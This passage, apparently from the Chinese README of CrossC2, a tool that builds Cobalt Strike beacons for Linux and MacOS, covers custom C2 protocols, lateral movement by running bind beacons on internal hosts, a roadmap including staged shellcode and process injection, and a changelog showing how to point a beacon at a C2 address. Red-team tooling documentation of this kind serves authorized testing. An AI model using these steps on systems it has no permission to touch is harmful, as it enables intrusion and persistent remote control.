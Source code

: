 <details><summary><b>现有扩展模块</b></summary></details>


## 自定义通信协议: API介绍 [📖 Wiki](https://gloxec.github.io/CrossC2/zh_cn/protocol/)

可以更便捷的实现C2Profile配置及自定义通信协议TCP/UDP等等。 

## 横向移动

1. 生成 `Linux-bind` / `MacOS-bind` 类型的beacon
2. 内网中的目标运行 `./MacOS-bind.beacon <port>` 开启服务
3. 在网络联通的session中运行 `connect <targetIP>:<port>`

## 内存中运行脚本

<details><summary><b>运行示例</b></summary></details>

# 即将上线

1. 丰富的C2Profile支持 ✔︎ (cna生成beaocn时选择自定义HTTP模块)
2. Staged类型Shellcode生成 ✔︎ (暂时只支持Linux，并且需要在server服务器上启动stagerServer)
3. http-proxy (auth) & socks 代理回连支持
4. 流量中转支持 ✔︎ (暂时采用回连socks代理的方式)
5. node beacon? (单个节点式，可进行不依靠teamserver托管其他beacon)
6. Linux & MacOS 端so/dylib的上线支持、及其衍生的进程注入等功能

# Examples

<details><summary><b>Mobile</b></summary></details>

<details><summary><b>MacOS & Linux</b></summary></details>

<details><summary><b>CustomExtension</b></summary></details>

# ChangeLog

## release v2.2.4 - stable :
* -修复 v2.2.3 的上线问题 #84 #85
* +支持 Linux支持从procfs中获取进程列表信息

## release v2.2.3 :
* -修复 修复32位Linux下打开文件管理器时beacon退出的bug
* -修复 修复多指令合并任务中`bcd`、`bls`、`bupload`等函数解析错误问题，现在可以处理与windows beacon相同的cna脚本  #81
* +支持 添加两个环境变量用于临时设置beacon连接的C2地址 (`CCHOST` & `CCPORT`)

> export CCHOST=127.0.0.1 && export CCPORT=443  && /tmp/c2

* +支持 添加bupload函数支持 https://github.com/gloxec/CrossC2/issues/81#issuecomment-841068719
